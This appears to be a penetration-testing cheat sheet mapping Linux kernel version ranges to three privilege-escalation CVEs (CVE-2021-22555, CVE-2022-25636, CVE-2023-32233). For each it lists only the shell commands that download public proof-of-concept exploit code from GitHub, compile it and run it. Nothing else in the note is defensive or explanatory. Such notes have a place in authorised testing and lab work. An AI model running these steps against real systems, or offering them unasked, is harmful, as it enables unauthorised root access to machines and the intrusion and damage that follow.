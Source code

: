 - ver 2.6 à 5.11 -> [[#CVE-2021-22555]]
- ver 5.4 à 5.6.10 -> [[#CVE-2022-25636 (ver 5.4 à 5.6.10)]]
- ver < 6.3.1 ->  [[#CVE-2023-32233 (ver < 6.3.1)]]


## CVE-2021-22555 (ver 2.6 à 5.11)

```shell
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
```

```shell-session
gcc -m32 -static exploit.c -o exploit
```

```shell-session
./exploit
```

## CVE-2022-25636 (ver 5.4 à 5.6.10)


```shell-session
git clone https://github.com/Bonfee/CVE-2022-25636.git
```

```shell-session
cd CVE-2022-25636
```

```shell-session
make
```

```shell-session
./exploit
```


## CVE-2023-32233 (ver < 6.3.1)

```shell-session
 git clone https://github.com/Liuk3r/CVE-2023-32233
```

```shell-session
cd CVE-2023-32233
```

```shell-session
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

```shell-session
./exploit
```